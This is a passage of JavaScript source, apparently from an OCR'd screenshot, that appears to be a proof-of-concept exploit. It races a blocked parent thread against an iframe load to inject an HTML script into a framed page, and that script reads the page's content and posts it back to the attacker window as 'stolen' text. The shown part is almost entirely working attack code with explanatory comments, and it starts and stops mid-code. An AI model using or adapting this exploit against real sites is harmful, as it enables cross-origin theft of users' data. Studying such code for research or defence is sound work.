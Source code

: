 ```js
            console.log(...args);
        }
        async function load(win, url) {
            const buffer = new Uint8Array(1e7);
            win.location = 'about:blank';
            await new Promise((resolve) => {
                loop.onmessage = () => {
                    try {
                        win.origin;
                        resolve();
                    } catch (e) {
                        loop.postMessage(null);
                    }
                };
                loop.postMessage(null);
            });
            win.location = url;
            await new Promise((resolve) => {
                loop.onmessage = () => {
                    if (win.length === 1) {
                        // Send a huge message so e.data.toString() blocks a thread for a while
                        // By transfering only a reference to memory chunk, sending the message
                        // will be fast enough to race condition window.onmessage and iframe.onload
                        // notify(Date.now(), '==1');
                        win?.postMessage(buffer, '*', [buffer.buffer]);
                        // Once we know the innerIframe loaded, we can now postMessage to it
                        // because it will be rendered in a different process in Chrome, so
                        // the blocked parent thread won't affect rendering the iframe!
                        setTimeout(() => {
                            win[0]?.postMessage(
                                {
                                    body: `LOL! <script>onmessage=async (e)=>{
                      let text = await e.data.body.text();
                      parent.opener.postMessage({stolen: text}, '*');
                    }<\/script>`,
                                    mimeType: "text/html",
                                },
                                "*"
                            );
                            resolve();
                        }, 500);
                    } else {
                        loop.postMessage(null);
                    }
                };
                loop.postMessage(null);
            });
            return 1;
        }
        var TIMEOUT = 1500;
        var win;
        function waitForMessage(url) {
            return new Promise(async resolve => {
                onmessage = e => {
                    if (e.data.stolen) {
                        notify(e.data.stolen);
                        log.innerText += e.data.stolen + '\n';
                        resolve(false);
                    }
                }
                const rnd = 'a' + Math.random().toString(16).slice(2);
                const _url = url + ',' + rnd;
                await load(win, _url);
```